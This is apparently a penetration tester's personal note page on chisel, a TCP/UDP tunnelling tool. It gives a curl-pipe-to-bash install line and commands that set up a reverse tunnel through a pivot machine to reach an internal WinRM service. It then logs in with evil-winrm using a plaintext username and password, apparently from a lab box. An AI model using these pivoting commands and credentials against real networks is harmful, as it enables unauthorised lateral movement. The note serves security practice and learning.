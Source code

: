 ```yaml
---
creation date: March 21st 2023
last modified date: March 21st 2023
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[chisel]]  
___

## Description:
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server.

## Installation
[chisel](https://github.com/jpillora/chisel)
`curl https://i.jpillora.com/chisel! | bash`
## Commands

to forward winrm:

your machine
`./chisel server --reverse -p 9002

pivot machine
`./chisel client <your_machine>:9002 R:5985:172.16.22.1:5985


`evil-winrm -i 10.10.14.95 -u 'matthew' -p '147258369'


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: March 21st 2023 (09:42 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
